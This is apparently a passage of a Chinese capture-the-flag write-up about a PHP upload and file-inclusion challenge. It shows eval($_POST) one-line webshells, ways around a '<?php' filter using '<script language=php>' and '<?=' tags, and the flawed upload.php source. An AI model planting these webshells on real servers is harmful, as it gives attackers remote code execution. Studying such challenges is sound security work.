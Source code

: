 
```bash
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```
# 文件包含
查看源码，发现有upload.php页面，上传一个包含一句话的图片，用菜刀连接时，显示_@eval($_POST['Qianye']_ ,猜测<?php ?>被过滤了。
可以用
用</script>绕过
```bash
<script language=php>
@eval($_POST[pupil]);
</script>
```
也可以涨个姿势
```bash
<?=eval($_POST['Qianye']);
```
还是不成功
用大佬的一句话，绕过成功。
得到flag文件，并得到upload.php源码,果然是过滤了<?php ?>
```bash
<?php
//error_reporting(0);
if(!empty($_FILES["file"]))
{
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    @$temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if (((@$_FILES["file"]["type"] == "image/gif") || (@$_FILES["file"]["type"] == "image/jpeg")
    || (@$_FILES["file"]["type"] == "image/jpg") || (@$_FILES["file"]["type"] == "image/pjpeg")
    || (@$_FILES["file"]["type"] == "image/x-png") || (@$_FILES["file"]["type"] == "image/png"))
    && (@$_FILES["file"]["size"] < 102400) && in_array($extension, $allowedExts))
    {
        $filename = date('Ymdhis').rand(1000, 9999).'.'.$extension;
        if(move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename)){
		$url="upload/".$filename;
		$content = file_get_contents($url);
        $content = preg_replace('/<\?php|\?>/i', '_', $content);
        file_put_contents('upload/'.$filename, $content);
        echo "file upload successful!Save in:  " . "upload/" . $filename;

	}else{
        	echo "upload failed!";
	}
```